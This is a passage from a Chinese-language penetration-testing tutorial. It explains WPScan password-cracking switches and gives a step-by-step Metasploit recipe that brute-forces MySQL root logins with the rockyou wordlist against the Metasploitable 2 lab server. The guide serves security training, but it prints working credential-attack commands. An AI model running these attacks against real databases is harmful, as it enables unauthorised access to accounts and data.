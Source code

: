## 它是如何工作的...

让我们了解前面命令中使用的开关：

+   `-u`：此开关指定要访问的 URL

+   `--wordlist`：此开关指定要用于破解的字典或密码列表

+   `--threads`：此开关指定要加载的线程数，以通过并行作业执行实现性能

## 还有更多...

WPScan 具有相当多的功能。它允许用户枚举安装的主题、插件、用户、timthumbs 等。在 WordPress 安装中使用其他可用命令来检查它们的功能总是一个好主意。

# 使用自定义字典破解 MySql 和 PostgreSQL 登录

在这个教程中，我们将看到如何访问 MySQL 和 Postgres 数据库。我们将使用 Metasploitable 2 易受攻击的服务器来执行攻击。

## 准备工作

在这个练习中，我们将使用 Metasploit 作为我们的模块来执行凭据攻击，因为我们已经在之前的教程中看到了其他工具的工作原理。让我们启动 Metasploit 控制台并开始利用 SQL 服务器。

## 操作步骤...

1.  一旦您进入 Metasploit 控制台，输入以下命令：

```
      use auxiliary/scanner/mysql/mysql_login
      set username root
      set stop_on_success true
      set rhosts <Target IP address>
      set pass_file /usr/share/wordlists/rockyou.txt
      exploit

```

输出将如下截屏所示：

![操作步骤...](img/image_04_025.jpg)

1.  完成后，请等待脚本完成。在这种情况下，因为我们已经给出了一个停止成功的命令，一旦找到正确的密码，它将停止执行脚本。输出将如下截屏所示：![操作步骤...](img/image_04_026.jpg)

